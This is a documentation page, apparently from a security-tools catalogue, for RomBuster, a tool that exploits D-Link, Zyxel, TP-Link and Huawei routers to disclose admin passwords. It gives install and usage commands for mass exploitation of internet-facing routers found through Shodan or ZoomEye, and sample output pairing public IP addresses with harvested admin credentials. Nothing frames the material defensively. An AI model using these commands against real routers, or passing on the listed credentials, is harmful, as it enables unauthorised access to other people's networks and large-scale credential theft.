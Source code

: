 ```yaml
---
title : "RomBuster"
# pre : ' '
description : "RomBuster is a router exploitation tool that allows to disclosure network router admin password."
date : 2021-07-06T11:24:47+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## RomBuster

Is a router exploitation tool that allows to disclosure network router admin password.

**Features**:

* Exploits vulnerabilities in most popular routers such as D-Link, Zyxel, TP-Link and Huawei.
* Optimized to exploit multiple routers at one time from list.
* Simple CLI and API usage.

### Installation

```plain
python3 -m pip install git+https://github.com/EntySec/RomBuster
```

### Usage

```plain
rombuster [-h] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

### Flags

```plain
RomBuster is a router exploitation tool that allows to disclosure network router admin password.

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

### Examples

#### Exploiting single router

Let's hack my router just for fun.

```plain
rombuster -a 192.168.99.1
```

#### Exploiting routers from Internet

Let's try to use Shodan search engine to exploit routers over Internet.

```plain
rombuster --shodan [API-KEY]
```

```plain
$ rombuster --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (187.200.68.1:80) - admin:3931623066
[+] (2.191.126.139:80) - admin:admin
[*] Exploiting...
```

#### Exploiting routers from input file

Let's try to use opened database of routers.

```plain
rombuster -i routers.txt -o passwords.txt
```

NOTE: It will exploit all routers in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

### URL list

* [Github.com - RomBuster](https://github.com/EntySec/RomBuster)
